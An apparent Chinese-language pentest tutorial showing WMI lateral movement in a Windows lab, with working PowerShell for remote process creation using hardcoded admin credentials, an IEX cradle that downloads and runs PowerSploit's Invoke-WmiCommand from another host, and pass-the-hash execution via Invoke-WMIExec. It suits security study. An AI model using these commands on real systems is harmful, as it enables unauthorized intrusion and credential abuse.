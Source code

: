 上传成功

**Invoke-WMIMethod**

> ***注意**
> ：该模块为Powershell内置模块，以下为示例，可以自由组合命令进行测试。示例在Windows2008R2、Windows2012R2、Windows2016均测试成功。*
    
    
    $User            #目标系统用户名
    $Password        #目标系统密码
    $Cred            #账号密码整合，导入Credential
    Invoke-WMIMethod #远程运行指定程序
    #####---------------------------#####
    
    $User = "WIN-D5IP32RU4A9\administrator"
    $Password= ConvertTo-SecureString -String "win@123" -AsPlainText -Force
    $Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User , $Password
    Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.8.179" -Credential $Cred
    

执行Powershell命令，成功创建运行cmd.exe，进程号为3192

3192进程对应的cmd.exe

**Invoke-WmiCommand**

> ***注意** ：Invoke-
> WmiCommand.ps1为PowerSploit内置利用脚本，以下示例在Windows2008R2、Windows2012R2、Windows2016均测试成功。*
    
    
    IEX....               #下载脚本并导入系统
    $User                 #目标系统用户名
    $Password             #目标系统密码
    $Cred                 #账号密码整合，导入Credential
    $Remote               #远程运行指定命令或程序
    $Remote.PayloadOutput #将执行结果输出到屏幕上
    #####---------------------------#####
    
    IEX(New-Object Net.Webclient).DownloadString('http://192.168.8.190:8000/Invoke-WmiCommand.ps1')
    $User = "WIN-D5IP32RU4A9\administrator"
    $Password = ConvertTo-SecureString -String "win@123" -AsPlainText -Force
    $Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
    $Remote = Invoke-WmiCommand -Payload {whoami} -Credential $Cred -ComputerName 192.168.8.179
    $Remote.PayloadOutput
    

执行成功，whoami的命令得到回显

**Invoke-WMIExec.ps1**

    
    
    Invoke-WMIExec -Target 192.168.0.110  -Username Administrator -Hash 3edc68a5debd735545ddf69fb3c224a8 -Command "cmd /c ipconfig >>c:\ipconfig.txt" -Verbose
    

在工作组中内执行该PS1脚本
